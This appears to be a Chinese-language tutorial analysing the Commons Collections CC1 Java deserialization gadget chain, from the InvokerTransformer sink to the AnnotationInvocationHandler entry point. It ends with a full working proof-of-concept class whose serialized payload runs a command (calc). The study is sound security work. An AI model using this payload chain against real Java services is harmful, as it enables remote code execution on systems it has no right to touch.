



## CC1链分析

参考文章:https://mp.weixin.qq.com/s/J_YeNkLN6KYTCVDYFh1dvQ

参考视频教程:https://www.bilibili.com/video/BV1A1421q7zj

https://mp.weixin.qq.com/s/8OR5mCfm2Yw7p14bMzY4Jg

https://mp.weixin.qq.com/s/4jt_lSULMq_jWTXV7gwpRA

上面文章或者视频都提到遇到一些问题的解决方法, 本文不做过多介绍, 只是一些浅显的个人理解.

> -> AnnotationInvocationHandler.readObject()
>    -> memberValues.entrySet().iterator() // memberValues 是我们的 TransformedMap
>    -> for (Map.Entry entry : ...)
>       -> entry.setValue() // 这是 TransformedMap 的 MapEntry
>          -> TransformedMap.checkSetValue()
>             -> valueTransformer.transform() // valueTransformer 是我们的 ChainedTransformer
>                -> ChainedTransformer.transform() 循环调用
>                   -> ConstantTransformer.transform()   // 返回 Runtime.class
>                   -> InvokerTransformer.transform()    // 调用 getMethod，返回 Method
>                   -> InvokerTransformer.transform()    // 调用 invoke，返回 Runtime实例
>                   -> InvokerTransformer.transform()    // 调用 exec，执行命令

一个链有`入口点`,` 中间链`, `利用点`.

## 利用点

对CC1链的分析先从利用点开始分析. 

CC1链的利用核心是: 

**通过 `InvokerTransformer` 利用反射机制，**构造一条从 `Class.forName` → `getMethod` → `invoke` → `exec` 的调用链**, 最终调用 `Runtime.getRuntime().exec("恶意命令")`**, 所以先分析`InvokerTransformr`. 

### InvokerTransformer

以弹出计算器为例. 是`Runtime.getRuntime().exec("calc")`, 或者

```java
Runtime r = Runtime.getRuntime();
r.exec("calc");
```

但我们并不能在反序列化数据中直接“写代码”去调用 `r.exec("calc")`。Java 反序列化操作的是**对象和方法调用**，而不是代码语句。因此，我们需要一个“代理”或“执行引擎”，能够在运行时**根据我们的指令，动态地调用指定的方法**。这个“执行引擎”，就是 `InvokerTransformer`。

`InvokerTransformer` 是 Apache Commons Collections 库中的一个工具类，它的设计本意是用于==集合的函数式变换==。其核心方法是：

```java
public Object transform(Object input)
```

这个方法的作用是：**以 `input` 为对象，通过反射调用一个预先指定的方法，并传入指定参数**。

举例

```java
InvokerTransformer transformer = new InvokerTransformer(
    "b", 
    new Class[]{String.class}, // 参数类型数组（必须是数组！）
    new Object[]{"hello"}     // 参数值数组（必须是数组！）
);

// 执行调用
transformer.transform(a); // 等同于 a.b("hello")
```

也就是说相当于调用a类的b方法,传入的类型由第二个参数控制,传入的值由第三个三处控制

我们可以这样使用它来执行 `exec`

```java
// 构造一个 transformer，它会在 transform 时调用 input.exec("calc")
InvokerTransformer transformer = new InvokerTransformer(
    "exec",                    // 要调用的方法名
    new Class[]{String.class}, // 方法参数类型
    new Object[]{"calc"}       // 实际参数
);
```

所以可以用下面方式弹出计算器

```java
Runtime runtime = Runtime.getRuntime();
new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);
```

虽然`InvokerTransformer`能实现单一方法调用，但要完成`Runtime.getRuntime().exec("calc")`，需要分三步执行：

1. 获取`Runtime.class`（作为调用`getMethod`的基础）；
2. 调用`Runtime.class.getMethod("getRuntime")`获取`getRuntime`方法的反射对象；
3. 调用该方法的`invoke`获取`Runtime`实例；
4. 最终调用实例的`exec`方法。

单一`InvokerTransformer`无法完成多步调用，因此需要一个能将多个`Transformer`按顺序串联执行的工具类 ——`ChainedTransformer`。

### ChainedTransformer

`ChainedTransformer`的核心功能是将多个`Transformer`组成调用链，前一个`Transformer`的输出作为下一个的输入。其`transform`方法源码逻辑如下：

```java
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

基于此，我们可以构造三个`InvokerTransformer`组成链条：

```java
// 1. 从Runtime.class中获取getRuntime方法
Transformer t1 = new InvokerTransformer(
    "getMethod",
    new Class[]{String.class, Class[].class},
    new Object[]{"getRuntime", new Class[0]}
);

// 2. 调用getRuntime方法（静态方法，第一个参数为null）
Transformer t2 = new InvokerTransformer(
    "invoke",
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]}
);

// 3. 调用Runtime实例的exec方法
Transformer t3 = new InvokerTransformer(
    "exec",
    new Class[]{String.class},
    new Object[]{"calc"}
);

// 串联三个Transformer
Transformer chain = new ChainedTransformer(new Transformer[]{t1, t2, t3});
```

当调用`chain.transform(Runtime.class)`时，执行流程为：

- 第一步：`t1.transform(Runtime.class)` → 返回`getRuntime`方法的`Method`对象；
- 第二步：`t2.transform(Method对象)` → 调用`invoke`返回`Runtime`实例；
- 第三步：`t3.transform(Runtime实例)` → 调用`exec("calc")`弹出计算器。

### ConstantTransformer

上述链条的触发需要传入`Runtime.class`作为初始参数，但在反序列化场景中，我们无法手动传入参数。因此需要`ConstantTransformer`来提供初始输入，它的`transform`方法会固定返回预设对象：

```java
// 始终返回Runtime.class
Transformer constant = new ConstantTransformer(Runtime.class);

// 完整链条：constant → t1 → t2 → t3
Transformer chain = new ChainedTransformer(new Transformer[]{
    constant, t1, t2, t3
});
```

此时调用`chain.transform(null)`即可自动以`Runtime.class`为起点触发整个链条，无需手动传入初始参数。

代码运行的基础是触发transform. 所以我们需要查看`transform`触发的点.



## 利用链

### checkSetValue

上面点击后进入

```java
protected Object checkSetValue(Object value) {
    return valueTransformer.transform(value); // 调用transformer
}
```

`TransformedMap`是 Apache Commons Collections 提供的一个 "装饰器类"，用于对 Map 的读写操作添加额外转换逻辑。`checkSetValue`方法是它专门用于处理 "值修改" 的核心逻辑：当通过`Map.Entry.setValue()`方法修改`TransformedMap`中的值时，该方法会被自动调用，对新值执行`valueTransformer.transform(value)`转换。

> 将`ChainedTransformer`（包含完整命令执行逻辑的转换链）设置为`TransformedMap`的`valueTransformer`。此时：
>
> - 当`checkSetValue`被调用时，它会执行`valueTransformer.transform(value)`，即触发`ChainedTransformer`的`transform`方法；
> - 进而启动后续的`InvokerTransformer`反射调用链，最终执行`Runtime.exec("恶意命令")`。

进一步查看`checkSetValue`被谁调用




### setValue

`checkSetValue`并非孤立存在，它的调用源于`TransformedMap`对`Map.Entry`的装饰。当我们通过`TransformedMap.entrySet()`获取条目时，得到的是`TransformedMap`内部定义的`Entry`实现类（如`TransformedMap.Entry`），这个类重写了`setValue`方法：

```java
public Object setValue(Object value) {
    // 先调用checkSetValue对值进行转换
    value = parent.checkSetValue(value);
    // 再调用原始Map的Entry.setValue更新值
    return entry.setValue(value);
}
```

这里的`parent`即`TransformedMap`实例，因此当外部调用`Entry.setValue()`时，会先触发`checkSetValue`，进而执行`valueTransformer.transform(value)`。这一设计是`TransformedMap`实现 "值转换" 功能的核心，但也成为了漏洞利用的关键 —— 只要能在反序列化过程中触发`Entry.setValue()`，就能间接调用我们预设的`ChainedTransformer`。

## 入口点

 ###  AnnotationInvocationHandler

要让`setValue`在反序列化时被自动调用，需要找到一个在`readObject`方法中会操作`Map.Entry`的类。JDK 内置的`sun.reflect.annotation.AnnotationInvocationHandler`正是这样的类，它是处理注解反射的辅助类，内部持有一个`memberValues`字段（类型为`Map`），用于存储注解的键值对。

其`readObject`方法的核心逻辑如下：/

```java
private void readObject(ObjectInputStream s) throws IOException, ClassNotFoundException {
    s.defaultReadObject();

    // 验证注解类型
    AnnotationType annotationType = null;
    try {
        annotationType = AnnotationType.getInstance(type);
    } catch (IllegalArgumentException e) {
        throw new InvalidObjectException("Non-annotation type");
    }

    Map<String, Class<?>> memberTypes = annotationType.memberTypes();

    // 遍历memberValues并处理每个条目
    for (Map.Entry<?, ?> e : memberValues.entrySet()) {
        String name = (String) e.getKey();
        Class<?> type = memberTypes.get(name);
        if (type == null) {
            throw new InvalidObjectException("Unknown annotation member: " + name);
        }
        Object value = e.getValue();
        // 对值进行类型检查和转换
        if (!type.isInstance(value) && !(value instanceof ExceptionProxy)) {
            // 关键：修改条目值，触发setValue
            e.setValue(new AnnotationTypeMismatchExceptionProxy(
                value.getClass() + "[" + value + "]").setMember(
                    annotationType.members().get(name)));
        }
    }
}
```

这段代码的作用是在反序列化时验证`memberValues`中的键值对是否符合注解定义的类型。当发现值的类型不匹配时，会调用`e.setValue()`修改条目值 —— 而如果`memberValues`是我们构造的`TransformedMap`，这里的`e.setValue()`就会触发`TransformedMap.Entry.setValue()`，进而调用`checkSetValue`和`ChainedTransformer.transform()`。

## CC1链代码

```java
package org.example.CC1;


import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception{
        //        //正常获取runtime实例
//        Runtime runtime = Runtime.getRuntime();

//        //反射获取 runtime实例,并执行代码
//        Class c = Runtime.class;
//        Method getRuntimeMethod = c.getMethod("getRuntime", null);
//        Runtime runtime = (Runtime) getRuntimeMethod.invoke(null, null);
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(runtime,"calc");

//        //InvokerTransformer方法获取runtime实例，并执行代码
//        Method  getRuntimeMethod = (Method) new InvokerTransformer("getRuntime", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}).transform(Runtime.class);
//        Runtime runtime = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}).transform(getRuntimeMethod);
//        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(runtime);

        //通过ChainedTransformer实现 InvokerTransformer方法获取runtime实例，并执行代码
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        //chainedTransformer.transform(Runtime.class);


        HashMap<Object, Object> map = new HashMap<>();
        map.put("value","value");

        Map<Object,Object> transformedMap = TransformedMap.decorate(map, null, chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        //创建构造器
        Constructor annotationInvocationHandlerConstructor = c.getDeclaredConstructor(Class.class, Map.class);
        //保证可以访问到
        annotationInvocationHandlerConstructor.setAccessible(true);
        //实例化传参，注解和构造好的Map
        Object o = annotationInvocationHandlerConstructor.newInstance(Target.class, transformedMap);

        serialize(o);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws Exception {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws Exception {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}


```


## 总结



```plaintext
ObjectInputStream.readObject()
  → AnnotationInvocationHandler.readObject()  // 反序列化入口
    → 遍历memberValues.entrySet()           // 处理Map条目
      → 发现值类型不匹配，调用e.setValue()   // 触发条目值修改
        → TransformedMap.Entry.setValue()    // 装饰类的setValue
          → TransformedMap.checkSetValue()   // 调用转换逻辑
            → ChainedTransformer.transform() // 执行转换链
              → ConstantTransformer返回Runtime.class
              → 第一个InvokerTransformer获取getRuntime方法
              → 第二个InvokerTransformer调用invoke得到Runtime实例
              → 第三个InvokerTransformer调用exec("calc")
                → 计算器弹出
```


